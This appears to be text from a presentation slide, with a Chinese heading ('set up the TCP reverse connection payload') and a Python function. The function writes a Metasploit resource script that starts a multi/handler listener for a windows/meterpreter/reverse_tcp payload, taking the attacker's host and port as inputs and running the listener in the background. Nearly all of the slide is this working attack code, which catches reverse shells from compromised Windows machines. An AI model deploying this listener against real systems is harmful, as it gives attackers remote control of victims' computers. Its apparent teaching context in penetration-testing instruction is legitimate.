

设置TCP反弹连接的Payload
def setupHandler(configFile, lhost, lport):
	configFile.write('use exploit/multi/handler\n')
	configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
	configFile.write('set LPORT ' + str(lport) + '\n')
	configFile.write('set LHOST ' + lhost + '\n')
	configFile.write('exploit -j -z\n')
	configFile.write('setg DisablePayloadHandler 1\n')